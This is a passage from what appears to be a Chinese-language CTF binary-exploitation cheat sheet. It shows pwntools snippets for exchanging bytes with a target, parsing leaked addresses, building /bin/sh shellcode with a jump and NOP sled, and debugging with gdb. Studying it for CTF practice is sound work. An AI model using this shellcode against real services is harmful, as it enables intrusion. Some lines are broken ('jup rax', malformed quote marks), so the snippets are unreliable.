 

##### ④. 字节收发控制
```python
#发送字节数据

io.sendlineafter("input:",line_1)

io.sendafter("input:\n",bin_sh)

io.send(write_thing)

#收字节数据的几种姿势：

io.recvuntil("input:\n")

last_stack_frame=int(io.recv()[2:14],16)

puts_addr=u64(aa.ljust(8,b'\x00'))

io.recv(2)

b=int(io.recv(14),16)
```



##### ⑤. shellcode编写控制
```python
#shellcode编程

password=asm(shellcraft.sh())

password=asm(shellcraft.sh()).ljust(padding,b'\x00')

io.sendlineafter("input:",password)
""""
这个写shellcode的方法可确实有点让人吃惊……
""""
shellcode = asm("jmp $+0x20") #相对短跳转 正号表示向后跳转
shellcode += asm("nop") * 0x20 #乘法不能写里边
shellcode += asm(shellcraft.execve("/bin/sh"))
#jmp语句确实不好写，要么就像我这么写，要么就利用寄存器赋值去写
#比如：
shellcode = asm("mov rax,0x7fffffff")
shellcode += asm("jup rax")
```



##### ⑥. gdb调试

```python
#gdb调试

gdb.attach(io)

gdb.attach(sh, '''
# 添加断点在 __malloc_hook 处
break *{}
commands
  # 查看栈信息
  info stack
  # 继续执行
  continue
end
continue
'''.format(hex(__malloc_hook_addr)))
```